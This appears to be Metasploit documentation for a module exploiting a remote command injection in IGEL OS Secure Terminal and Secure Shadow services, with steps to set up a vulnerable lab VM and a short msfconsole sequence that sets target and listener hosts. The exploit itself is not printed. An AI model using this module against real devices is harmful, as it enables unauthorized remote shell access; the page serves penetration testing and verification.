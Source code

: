 ## Vulnerable Application

IGEL OS before 11.04.270 and 10.06.220 are vulnerable to remote command execution into a `system()` call via Secure Terminal and Secure
Shadow services.

Secure Terminal/telnet_ssl_connector:   30022/tcp
Secure Shadow/vnc_ssl_connector:        5900/tcp


## Verification Steps

Download Vulnerable IGEL OS version (e.g. 11.04.130) from: https://www.igel.com/software-downloads/workspace-edition/.

Unpack downloaded zip file and create a VM using the included .iso.

Navigate through the installation menus to install the firmware, reboot when prompted

After rebooted work through the presented configuration wizard.  In the Activation section use the starter license (selected by default).
Skip the ICG Agent Setup.  Upon completion the system will reboot again.

### Turn on vulnerable services

1. Click on the launcher menu
2. Click on the gear icon
3. Select "Setup" from the Application menu to launch the Setup app
4. Enable vulnerable VNC service wrapper
    1. Under the configuration menu on the left Navigate to: System > Remote Access > Shadow.
    2. Ensure "Allow remote shadowing" and "Secure mode" are checked.
5. Enable vulnerable terminal wrapper
    1. Under the configuration menu on the left Navigate to: System > Remote Access > Secure Terminal.
    2. Ensure "Secure Terminal" is checked.

### Exploitation

1. start msfconsole
2. `use exploit/linux/misc/igel_command_injection`
3. `set RHOST [TARGET IP]`
4. `set RPORT [30022 or 5900]`
5. `set LHOST [LOCAL IP]`
6. `exploit`

### Misc

To obtain the IGEL's IP address to test against click the up/down arrows on the right side of the task bar then click "More Details".
A shell is available on a virtual console by ctrl+alt+F11, switch back to the GUI with ctrl+alt+F1.

This module has been successfully tested against IGEL OS 11.04.130 and 10.05.500.

## Options
